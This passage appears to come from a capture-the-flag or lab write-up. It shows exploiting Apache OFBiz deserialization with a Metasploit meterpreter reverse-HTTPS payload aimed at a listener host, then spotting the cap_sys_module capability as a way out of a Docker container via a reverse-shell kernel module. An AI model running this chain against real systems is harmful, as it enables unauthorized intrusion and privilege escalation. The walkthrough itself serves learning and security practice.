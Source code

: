With this enabled I was able to access the page directly from my browser on http://localhost:8000.

Luckily I found an exploit in **metasploit** and got a meterpreter session.

```bash
msf6 exploit(linux/http/apache_ofbiz_deserialization) > show options

Module options (exploit/linux/http/apache_ofbiz_deserialization):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][.
                                         ..]
   RHOSTS     localhost        yes       The target host(s), range CIDR identifier, or hosts file
                                         with syntax 'file:<path>'
   RPORT      8000             yes       The target port (TCP)
   SRVHOST    0.0.0.0          yes       The local host or network interface to listen on. This mu
                                         st be an address on the local machine or 0.0.0.0 to liste
                                         n on all addresses.
   SRVPORT    8080             yes       The local port to listen on.
   SSL        true             no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is randomly gen
                                         erated)
   TARGETURI  /                yes       Base path
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host


Payload options (linux/x64/meterpreter_reverse_https):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  <My_IP>          yes       The local listener hostname
   LPORT  1234             yes       The local listener port
   LURI                    no        The HTTP Path
```

Once connected on the docker through the meterpreter session I searched for a possible docker vulnerability :

```bash
$ capsh --print

[...]
Bounding set =cap_chown,cap_dac_override,cap_fowner,cap_fsetid,cap_kill,cap_setgid,cap_setuid,cap_setpcap,cap_net_bind_service,cap_net_raw,cap_sys_module,cap_sys_chroot,cap_mknod,cap_audit_write,cap_setfcap
[...]
```

The interesting part is this **cap_sys_module**, it means that we can try to insert kernel modules.

Thanks to [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/linux-capabilities) I was able to find a way to create and then compile a reverse-shell in c.
